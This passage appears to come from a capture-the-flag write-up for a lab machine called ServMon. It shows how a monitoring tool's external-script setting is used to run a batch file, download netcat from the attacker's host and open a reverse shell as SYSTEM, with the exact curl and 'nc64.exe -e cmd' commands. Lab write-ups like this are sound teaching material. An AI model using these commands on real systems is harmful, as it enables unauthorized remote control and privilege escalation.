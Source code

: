 ```
Section: /settings/external scripts/scripts/somenewscript
Key: command
Value: C:\temp\test.bat
```

Saving the configuration and reloading the interface:
```
Changes --> Save configuration

Control --> Reload
```

Running the script:
```
Queries --> somenewscript --> Run --> Run
```

The `tcpdump` listener on my client gets a response back, so command execution is successful.
Lets use the same method to start a reverse shell.

Uploading **netcat64 for Windows** on the box:
```
nadine@SERVMON C:\Temp> curl 10.10.14.15:8000/nc64.exe -o nc64.exe
```

Creating a batch script that executes `nc64.exe`:
```
nadine@SERVMON C:\Temp>echo C:\Temp\nc64.exe -e cmd 10.10.14.15 9001 > test.bat
```

Running the script:
```
Queries --> somenewscript --> Run --> Run
```

After running the script, the listener on my IP and port 9001 starts a reverse shell session as _SYSTEM_!
